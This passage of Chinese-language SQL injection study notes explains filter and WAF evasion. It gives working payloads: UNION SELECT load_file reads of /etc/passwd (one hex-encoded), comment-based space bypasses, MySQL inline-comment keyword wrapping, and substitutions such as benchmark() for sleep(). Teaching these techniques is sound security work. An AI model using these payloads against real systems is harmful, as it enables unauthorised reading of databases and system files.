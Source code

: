 ```
1 and 1=2 union select 1,load_file('/etc/passwd');#
1 and 1=2 union select 1,load_file(0x2F6574632F706173737764);#
```

![image-20220329110708772](../../bookimages/image-20220329110708772.png)

#### ==2.3.3 char()函数==



### 2.4 注释绕过

#### 2.4.1 注释绕过针对空格的过滤

```
1' and 1=2 union/**/select 1,2 #
```

![image-20220330095327714](../../bookimages/image-20220330095327714.png)

![image-20220330095245054](../../bookimages/image-20220330095245054.png)

![image-20220330100241961](../../bookimages/image-20220330100241961.png)

#### 2.4.2 内联注入

``/*![数据库版本][数据库函数]*/``，和注释``/**/``的区别是多了一个感叹号，可选的数据库版本号。

这种注释在mysql中叫做内联注释，当实际的版本等于或是高于写入的[数据库版本]，应用程序就会将注释内容解释为SQL命令，否则就会当做注释来处理。默认情况下，不添加数据库版本也会当做SQL命令来执行。

内联注释可以用来包裹数据库关键字和非关键字。

```
1' and 1=2 /*!UNION*/ /*!SELECT*/ 1,2#
1'/*asdw*/and/**/1=2/**//*!50000UNION*//*abcd*//*!50000SELECT*//**/1,2#
```

![image-20220330103816362](../../bookimages/image-20220330103816362.png)

![image-20220330104030637](../../bookimages/image-20220330104030637.png)

### 2.5 等价语句替换

在有些函数或命令因其关键字被检测出来而无法使用的情况下，我们可以考虑使用与之等价或类似的代码替代其使用。

```
sleep() 与 benchmark()
concat_ws() 与 group_concat()
mid()=substr()=substring()
```

sleep()与benchmark()

mysql中可用BENCHMARK(50000000,MD5(‘A’))产生延迟，执行MD5()50000000次，产生的延迟时间和服务器性能有关。
